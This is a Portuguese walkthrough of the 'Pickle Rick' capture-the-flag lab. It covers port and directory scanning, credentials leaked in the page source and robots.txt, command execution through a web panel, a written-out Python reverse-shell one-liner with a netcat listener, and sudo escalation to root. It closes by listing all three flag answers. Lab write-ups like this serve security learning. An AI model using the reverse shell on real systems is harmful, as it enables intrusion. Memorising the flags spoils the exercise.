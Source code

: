 CTF PICLE RICK
 
Ao inicar o desafio dei um nmap para ver as portas abertas

    nmap -A -sV IP

Encontrei 2 portas(22,80)

Ao entrar no servidor apache vizualizei o codigo fonte e encontrei uma mensagem informando o username 

    R1ckRul3s

Apos isso dei um gobuster para encontrar diretorios desse apache

    gobuster dir -u IP -w directory-list-2.3-small.txt -x php,html,txt

    /robots.txt
    /assets
    /index.html
    /login.php
    /portal.php

Ao procurar esses diretorios no robots.txt tinha uma palavra que poderia ser uma senha 

    Wubbalubbadubdub

No login.php coloquei o username(R1ckRul3s) e o password(Wubbalubbadubdub) assim acessando o portal.php 

O comando "ls" nao podia ser usado entao era possivel usar o "less"

Assim...

    less clue.txt

    Look around the file system for the other ingredient.

Depois...

    less Sup3rS3cretPick13Ingred.txt

    mr. meeseek hair

Encontrando a primeira flag do CTF

Agora teremos que entrar no sistema como foi dito na dica, para entrar no sistema usamos a falha RCE que permite voce executar um codigo malicioso no back-end da aplicacao... ao buscar python no command panel vimos que tinha um python3 instalado

    which python3

Assim era so criar no netcat e pegar o script 

Script 

    python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("IP(tryhackme)",1333));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'

NetCat

    nc -lvnp 1333

Ao conseguir entrar no sistema fui procurar arquivos no sistema ao encontrar no /home

    cd /home
    cd rick

    cat "second ingredients"
    1 jerry tear 

Encontrando a segunda flag era so ir atras da ultima..
Ao ver as permissoes root do usuario vi que nosso usuario podia executar tudo como root

    sudo -l

Assim...

    sudo bash -i
    cd /root
    cat 3rd.txt
    fleeb juice 

E conseguindo todas as flags..

FLAGS

    Flag 1: mr. meeseek hair
    Flag 2: 1 jerry tear
    Flag 3: fleeb juice
